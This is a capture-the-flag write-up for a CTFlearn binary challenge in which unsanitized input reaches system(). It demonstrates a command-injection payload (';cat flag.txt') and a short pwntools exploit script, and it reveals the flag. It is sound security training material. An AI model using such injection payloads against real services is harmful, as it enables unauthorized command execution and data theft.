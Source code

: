 # Domain name resolver
#### Write-up author: [jon-brandy](https://github.com/jon-brandy)
## DESCRIPTION:
Check IP of your favorite domain.

`nc rivit.dev 10004`

[FILE](https://github.com/Bread-Yolk/ctflearnwu/blob/219c3f872ee92e567d29e124b0c63dbaf5d44da4/Assets/Binex/Domain%20name%20resolver/task.tar.gz)

## HINT:
- NONE
## STEPS:
1. First, check the binary type and it's protections.

> 64 bit, not stripped

![image](https://user-images.githubusercontent.com/70703371/221830544-a849ccf1-34b5-4f8a-aa48-9abf06bc8ab6.png)


> ALL ENABLED

![image](https://user-images.githubusercontent.com/70703371/221830710-5053a7cd-7430-4a7e-90f7-52eb9be53892.png)


2. Let's decompile the binary then.

> main()

![image](https://user-images.githubusercontent.com/70703371/221830800-8d2ee7a0-47fb-46f0-bc87-a1fd9fcfa5f3.png)


3. Analyzing the main function we know that the input is not sanitized.

![image](https://user-images.githubusercontent.com/70703371/221831239-f6b386ba-265a-42f5-acc0-eb9789ad7236.png)


4. The program use the `system` call and use our input as it's argument/param.
5. Hence we can utilize it with input the strings `;cat flag.txt`.
6. This vuln commonly known as **command injection**.

> WHY WE NEED SEMICOLON?

```
The semicolon character (;) is commonly used in command injection attacks to concatenate multiple commands in a single line. 
In the context of this code, if an attacker inputs a semicolon followed by a command, the system() function will execute both 
the original command (generated using snprintf()), as well as the injected command concatenated by the semicolon.
```

7. Let's craft our script then.

> THE SCRIPT

```
from pwn import *
import os
#64 bit
os.system('clear')

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe], *a, **kw)

exe = './task'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'debug'

sh = start()

sh.sendlineafter(b':', b';cat flag.txt') 

#sh.recvlines()

sh.interactive()

```

> RESULT

![image](https://user-images.githubusercontent.com/70703371/221832583-2798c7f2-42a2-49cd-b3bb-2778c2c13734.png)


7. Got the flag!

## FLAG

```
CTFlearn{1s_c0mm4nd_1nj3ct10n_4_th1ng?}
```

